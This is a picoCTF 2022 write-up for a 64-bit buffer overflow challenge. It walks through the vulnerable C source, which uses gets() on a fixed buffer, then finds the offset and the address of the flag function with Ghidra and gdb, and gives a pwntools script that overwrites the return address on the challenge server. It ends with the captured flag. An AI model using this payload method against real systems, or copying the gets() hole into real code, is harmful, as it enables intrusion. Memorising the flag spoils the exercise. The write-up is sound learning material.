 #pico2022 #binaryexploitation 

## Challenge:
```md
Overflow x64 code
```

This launches an instance:
```md
Overflow x64 code Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this [program](https://artifacts.picoctf.net/c/192/vuln). [Download source](https://artifacts.picoctf.net/c/192/vuln.c). `nc saturn.picoctf.net 51144`
```

## Process:
Download the files.
```bash
wget -q https://artifacts.picoctf.net/c/192/vuln
wget -q https://artifacts.picoctf.net/c/192/vuln.c
```
#wget 

Make the *vuln* program executable.
```bash
chmod +x vuln
```
#chmod 

I opened up the *vuln.c* file in emacs.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
#emacs #c 

Next I installed [*ghidra*](https://ghidra-sre.org/). I did this via the *Pop! Shop*.

I opened the file in *ghidra* and found the command after the push.
![[040_x-sixty-what.png]]
#ghidra

```
0040123b
```

This is also *little endian*.

I run the file in ```gdb``` and find I need to pass 72 characters before I can cause a segmentation fault.
```
gdb vuln
```
#gdb 

From here I write a *python* script using *pwntools* to send the payload.
```python
#!/usr/bin/env python3

from pwn import *

payload = b'A'*72 + b'\x3b\x12\x40\x00\x00\x00\x00\x00'

p = remote("saturn.picoctf.net", 51144)

output = p.recvline()
print(output.decode())

print("Attempting to send payload")
p.sendline(payload)
print("Payload sent")

output = p.recv()
print(output.decode())
```
#python #pwntools

Sending this payload returns the flag.
```
[+] Opening connection to saturn.picoctf.net on port 65429: Done
Welcome to 64-bit. Give me a string that gets you the flag:

Attempting to send payload
Payload sent
picoCTF{b1663r_15_b3773r_11c407bc}
[*] Closed connection to saturn.picoctf.net port 65429
```
#python #netcat #nc  #pwntools 

Save the flag.
```bash
echo "picoCTF{b1663r_15_b3773r_11c407bc}" > flag.txt
```
#echo 

**Flag: *picoCTF{b1663r_15_b3773r_11c407bc}***
